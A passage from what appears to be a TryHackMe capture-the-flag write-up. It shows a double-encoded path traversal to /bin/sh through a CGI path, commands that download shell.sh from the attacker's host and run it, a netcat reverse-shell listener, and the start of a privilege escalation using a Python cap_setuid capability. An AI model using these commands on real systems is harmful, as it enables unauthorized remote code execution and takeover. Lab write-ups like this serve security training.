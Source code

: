 ```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; curl http://10.9.63.75:8000/shell.sh -o /tmp/shell.sh'

# verify that the shell has been placed
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; ls -l /tmp/'
total 4
-rw-r--r-- 1 daemon daemon 38 Sep  7 10:56 shell.sh

┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; chmod +x /tmp/shell.sh'

┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; ls -l /tmp/'
total 4
-rwxr-xr-x 1 daemon daemon 38 Sep  7 10:56 shell.sh
```

```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; bash /tmp/shell.sh'
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.114.109] 48372
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
python3 -c "import pty;pty.spawn('/bin/bash')"
daemon@4a70924bafa0:/bin$
```

## Privilege Escalation → root

I had checked the `/home/` directory but there is no other available user → The only user that I have to escalate is the **root.**

To perform the privilege escalation, I do some common checks such as **cronjobs**, **capabilities**:

```
daemon@4a70924bafa0:/bin$ cat /etc/crontab
cat /etc/crontab
cat: /etc/crontab: No such file or directory
daemon@4a70924bafa0:/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:/bin$ ls -l /usr/bin/python3.7
ls -l /usr/bin/python3.7
-rwxr-xr-x 1 root root 4877888 Jan 22  2021 /usr/bin/python3.7
```
